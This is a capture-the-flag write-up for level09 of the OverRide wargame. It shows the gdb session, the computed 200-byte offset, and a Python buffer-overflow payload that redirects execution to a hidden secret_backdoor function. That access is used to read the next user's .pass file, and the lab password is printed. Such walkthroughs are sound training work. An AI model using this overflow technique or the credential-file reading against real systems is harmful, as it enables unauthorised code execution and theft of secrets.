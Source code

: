 # Level 09

Once logged in, you will see a binary

```
$ ssh localhost -p 4242 -l level09
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level09@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$ ls
level09
level09@OverRide:~$
```

by running the program, the prompt opens for asking a name, and message to send to `@Unix-Dude`

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: sucho
>: Welcome, sucho
>: Msg @Unix-Dude
>>: hi
>: Msg sent!
level09@OverRide:~$
```

By decompiling the binary, there are a function that never called, name `secret_backdoor`, which gets user input and stores into the buffer(local variable), and calles `system()` function with the buffer. also, the program uses `fgets()`, `printf()`, `strncpy()` throughout the program, so there may be a chance to exploit the program with buffer overflow.


XXXXXXXXXXXXXXXXXXXXXXX
decompilation gives the set_username function will take `0x29 = 40` bytes into the buffer. the buffer after, we want to feed `256 = '\xff'`, so that the value initially set up, which is 140, will be able extend the length of `strncpy()`.
XXXXXXXXXXXXXXXXXXXXXXX

XXXXXXXXXXXXXXXXXXXXXXXXXXXX
We want to overwrite the rip (64 bits version of eip) to the address of the function `secret_backdoor`. but the address only will be right once you `run` the program.

```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x000000000000088c  secret_backdoor 	; no bueno
[...]
```

```
gdb-peda$ b set_username
Breakpoint 1 at 0x9d1
gdb-peda$ run
[...]
gdb-peda$ info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
XXXXXXXXXXXXXXXXXXXXXXXXXXXX


Lastly, we need to find the offset to overwrite `rip (64 bits ver. of eip)`. The reason we want to find `rip` after calling `set_username` is this is when all the input will be stored into the buffer.
```
   0x55555555490d <handle_msg+77>:	mov    rdi,rax
=> 0x555555554910 <handle_msg+80>:	call   0x5555555549cd <set_username>
   0x555555554915 <handle_msg+85>:	lea    rax,[rbp-0xc0]
[...]
Breakpoint 1, 0x0000555555554910 in handle_msg ()
gdb-peda$ info register rax
rax            0x7fffffffe4b0	0x7fffffffe4b0
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe580:
 rip = 0x555555554910 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe590
 Arglist at 0x7fffffffe570, args:
 Locals at 0x7fffffffe570, Previous frame's sp is 0x7fffffffe580
 Saved registers:
  rbp at 0x7fffffffe570, rip at 0x7fffffffe578
gdb-peda$ p/d 0x7fffffffe578 - 0x7fffffffe4b0
$4 = 200
```
So, the offset is `200`.

Now, we want to have a payload, the payload will need to be structured as below:
```
// struct FYI

// struct {
//		char buf_1[140];
//		char buf_2[40];
//		unsigned int num;
// };

[First 40 bytes random character] + [a value to overwrite a variable `num` in the struct] + [fill up rest of the buffer] + [address for function `secret_backdoor`]

"A"*40 + 256(it can be any) + "B" * 200 (the offset) + 0x000055555555488c
```

```
python -c 'import struct; print "A"*40 + "\xff\n" + "B"*200 + struct.pack("L", 0x000055555555488c)' # I stands for unsigned int, L stands for unsigned long

(python -c 'import struct; print "A"*40 + "\xff\n" + "B"*200 + struct.pack("L", 0x000055555555488c)'; cat -) | ./level09
```

```
level09@OverRide:~$ (python -c 'import struct; print "A"*40 + "\xff\n" + "B"*200 + struct.pack("L", 0x000055555555488c)'; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/$(whoami)/.pass
Segmentation fault (core dumped)
level09@OverRide:~$ (python -c 'import struct; print "A"*40 + "\xff\n" + "B"*200 + struct.pack("L", 0x000055555555488c)'; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/$(whoami)/.pass

j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
level09@OverRide:~$
level09@OverRide:~$ su end
Password:
end@OverRide:~$ ls
end
end@OverRide:~$ ./end
./end: line 1: GG: command not found
end@OverRide:~$
```

```
  ________  ________
 /  _____/ /  _____/
/   \  ___/   \  ___
\    \_\  \    \_\  \
 \______  /\______  /
        \/        \/
```
